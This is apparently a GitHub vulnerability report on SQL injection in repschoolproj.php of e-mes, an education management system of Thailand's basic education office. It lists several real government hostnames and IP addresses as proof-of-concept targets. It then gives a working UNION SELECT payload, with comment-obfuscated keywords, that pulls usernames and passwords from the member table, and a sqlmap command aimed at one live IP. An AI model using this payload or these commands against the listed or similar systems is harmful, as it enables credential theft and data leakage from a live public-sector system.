 Describe：
E-mes is an education management system of Thailand's basic education department. It has a serious SQL injection vulnerability, through which many sensitive information in the database can be obtained. This affects the whole e-mes version. As this is a system of the Thai government department, it can't be found on GitHub for the time being

> [Attack Vectors]
> A SQL injection vulnerability exists in the school information query interface (repschoolproj.php) of the EMS system of the Office of the Thai Basic Education Commission, which can lead to important data leakage.This website is owned by the Thai government, and if it is not repaired in time, it may lead to information leakage.
POC: 
> 1.http://eme1.obec.go.th/~eme62/repschoolproj.php?claster=school&idarea=648
> 2.http://203.159.250.192/~eme52/repschoolproj.php?claster=school&idarea=648
> 3.http://203.159.250.194/~eme53/repschoolproj.php?claster=school&idarea=648
> 4.http://203.159.164.54/~eme54/repschoolproj.php?claster=school&idarea=648
> 5.http://203.159.250.193/~eme63/repschoolproj.php?claster=school&idarea=648
> 6.more.....
> Exploit:
> http://localhost/eme/repschoolproj.php?claster=school&idarea=648 repschoolproj.php?claster=school&idarea=648 /**/uNiOn /**/select/**/ 1,1,user,1,1,1,1,1,2,3,4,5,6,7,1,1,9,10,passwd,12,13,1,1,1,1,user(),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from member#
> This exp can get the login account and password of the e-mes system
> photo proof:
![图片](https://user-images.githubusercontent.com/110643835/188271608-f84fa56c-e571-4bad-977d-1f3758c20f6f.png)
![图片](https://user-images.githubusercontent.com/110643835/188271644-c6d1d05c-09ec-4785-9507-0809d0c48e22.png)

Or use sqlmap for injection
> POC: sqlmap.py -u "http://203.159.164.54/~eme54/repschoolproj.php?claster=school&idarea=648*"

